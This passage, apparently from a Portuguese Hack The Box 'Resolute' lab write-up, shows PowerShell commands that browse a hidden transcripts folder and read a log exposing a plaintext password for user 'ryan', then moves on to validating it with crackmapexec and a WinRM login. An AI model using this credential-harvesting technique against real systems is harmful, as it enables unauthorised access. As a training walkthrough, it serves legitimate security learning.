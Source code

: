 ```powershell
#>  d-r---        12/4/2019   2:46 AM                Users
#>  d-----        12/4/2019   5:15 AM                Windows
#>  -arhs-       11/20/2016   5:59 PM         389408 bootmgr
#>  -a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
#>  -a-hs-        9/16/2021  11:29 AM      402653184 pagefile.sys

cd "C:/PSTranscripts"
dir -Force

#>      Directory: C:\PSTranscripts
#>
#>
#>  Mode                LastWriteTime         Length Name
#>  ----                -------------         ------ ----
#>  d--h--        12/3/2019   6:45 AM                20191203

cd "C:/PSTranscripts/20191203"
dir -Force

#>      Directory: C:\PSTranscripts\20191203
#>
#>
#>  Mode                LastWriteTime         Length Name
#>  ----                -------------         ------ ----
#>  -arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

type "C:/PSTranscripts/20191203/PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt"

# Pelo meio da resposta, vê-se o seguinte:

#>  Command start time: 20191203063515
#>  **********************
#>  PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
#>  >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

> A nova credencial é ryan:Serv3r4Admin4cc123!

Vamos validar estas novas credenciais com crackmapexec (como sempre...)

![WinRM login com usuário ryan](Assets/HTB-Windows-Medium-Resolute/PrivEsc-ryan-pwned.png)
